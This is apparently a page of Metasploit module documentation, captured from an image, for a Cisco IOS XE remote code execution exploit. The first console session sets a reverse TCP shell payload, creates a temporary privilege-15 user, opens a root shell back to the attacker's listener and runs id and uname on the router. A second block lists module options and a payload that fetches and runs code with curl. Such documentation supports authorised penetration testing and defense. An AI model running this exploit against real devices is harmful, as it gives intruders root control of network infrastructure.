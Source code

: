 ```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/linux/http/x64/shell/reverse_tcp
payload => cmd/linux/http/x64/shell/reverse_tcp
msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 17.03.02
[*] Created privilege 15 user 'pfGnCwkI' with password 'YhTwxBLK'
[*] Removing user 'pfGnCwkI'
[*] Sending stage (38 bytes) to 192.168.86.58
[*] Command shell session 7 opened (192.168.86.42:4444 -> 192.168.86.58:64994) at 2023-11-06 17:01:44 +0000

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0
uname -a
Linux router 4.19.106 #1 SMP Fri Oct 2 17:55:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.58 - Command shell session 7 closed.
msf6 exploit(linux/misc/cisco_ios_xe_rce) > 
```

### Linux Command (IOS XE 16.12.3)

```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > show options

Module options (exploit/linux/misc/cisco_ios_xe_rce):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   CISCO_CMD_TIMEOUT  30               yes       The maximum timeout (in seconds) to wait when trying to execute a command.
   CISCO_VRF_NAME     global           yes       The virtual routing and forwarding (vrf) name to use. Both 'fwd' or 'global' have been tested to work.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.59    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              443              yes       The target port (TCP)
   SSL                true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                               no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      ytfnShmfT        no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


```